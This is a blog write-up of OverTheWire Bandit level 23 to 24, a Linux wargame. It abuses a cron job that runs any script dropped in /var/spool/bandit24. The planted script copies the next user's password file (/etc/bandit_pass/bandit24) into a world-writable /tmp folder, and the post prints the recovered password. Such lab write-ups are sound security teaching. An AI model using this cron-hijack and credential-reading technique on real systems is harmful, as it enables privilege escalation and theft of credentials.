 ```yaml
---
categories:
- Security
- OverTheWire
date: 2021-03-17 10:22:25 +0530
description: '[OverTheWire - Bandit](https://overthewire.org/wargames/bandit/bandit24.html)'
img_path: /assets/
published: true
tags:
- overthewire
- bandit
- ctf
- security
- linux
title: 'OverTheWire: Bandit Level 23 → Level 24'
---
```


![banner-image|640](overthewire-banner.png)

## Level Goal

> A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.  
> **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!  
> **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

> cron, crontab, crontab(5) (use "man 5 crontab" to access this)

```
> whatis cron  
cron (8)         - daemon to execute scheduled commands (Vixie Cron)

> whatis crontab  
crontab (1)      - maintain crontab files for individual users (Vixie Cron)  
crontab (5)      - tables for driving cron
```

## Helpful Reading Material

[Linux/Mac Tutorial: Cron Jobs - How to Schedule Commands with crontab - YouTube](https://www.youtube.com/watch?v=QZJ1drMQz1A)

[shellmagic.xyz - This website is for sale! - shellmagic Resources and Information.](https://shellmagic.xyz/)

[Classic SysAdmin: Understanding Linux File Permissions - Linux Foundation](https://www.linux.com/training-tutorials/understanding-linux-file-permissions/)

[Timeout Command in Linux \| Linuxize](https://linuxize.com/post/timeout-command-in-linux/)

## Solution

Since we know there is a task that is being executed by cron let's have a look at all the cron jobs on the system

```
bandit23@bandit:~$ ls /etc/cron.d/  
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
```

Since we require the password for bandit24 the task that we are looking for should be `cronjob_bandit24`

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

When we look at the contents of the file we see that there is a script that is executed on the system every minute. We can also see that bandit24 is the owner of the file.

**Note:** The @reboot is a special keyword that is used by Cron to run a job when the system is rebooted.

Let's have a look at the contents of the script and try to understand what is it trying to perform

```
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down the script line by line:

*   The output of `whoami` command is getting saved in a variable called `myname` (Since this script is being executed by bandit24 the output of `whoami` will be `bandit24` which is saved in the `myname` variable)
*   A folder called `bandit24` exists in the `/var/spool` directory. The working directory is changed to this folder.
*   Then a statement saying all the scripts that are present in the folder `/var/spool/bandit24` is being deleted is printed.
*   For loop is used to iterate through all the files in the directory (.\* : All files in current working directory)
*   A check is made to see if the currently selected file is called `.` or `..` if not then the rest of the code is executed. ("." means the current directory (bandit24) and ".." means the parent directory (spool))
*   The name of the currently selected file is printed and then the information about the owner of the file is saved in the variable "owner".
*   A check is made to check if the owner of the currently selected file is "bandit23". If it is then the currently selected file is executed and sent the KILL signal after waiting for 60 seconds and then deleted (-s flag in timeout command is used to specify the signal to send to the command "9" is an alias for the KILL command)

So from this, we understand that whatever file is saved in the folder "bandit24" gets executed and if the file was created by "bandit23" then after 60 seconds of execution the file is deleted. If we want the password for "bandit24" we need to write a script that will be executed from the bandit24 folder. The script that we write should get the password and save it in a location that we can access (`/tmp` directory)

Let's make a folder in the `/tmp` directory and use that as the base location for all the operations from here on out.

```
bandit23@bandit:~$ mkdir /tmp/rand

bandit23@bandit:~$ cd /tmp/rand
```

Create a file called `script.sh` using Vim or any other editor on the system and write the following code in the file.

```
#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/rand/password
```

Since the output of the script is going to be saved in a file called `password` let's create a file with that name as well.

```
touch password
```

The cron job is executed by user bandit24 so when the job executes our script it is also going to have the permission of bandit24 which is not the same permission as we have because of this when the script tries to write output to the file called "password" it will fail so let's change the permission of all the files in the current folder so that any user can access them.

```
chmod 777 -R /tmp/rand
```

Finally, let's copy the script in the `bandit24` folder from where the cron job should execute our file.

```
cp script.sh /var/spool/bandit24
```

![Ls Command|420](images/bandit-23-24/ls-command.png)

After waiting for about a minute we should see that some data has been written into the password file. Let's view the content of this file.

```
bandit23@bandit:/tmp/rand$ cat password   
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

We have found the password !!

Logout of the current session and login into the next level as bandit24

```
> ssh bandit24@bandit.labs.overthewire.org -p 2220                                                                                                         

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```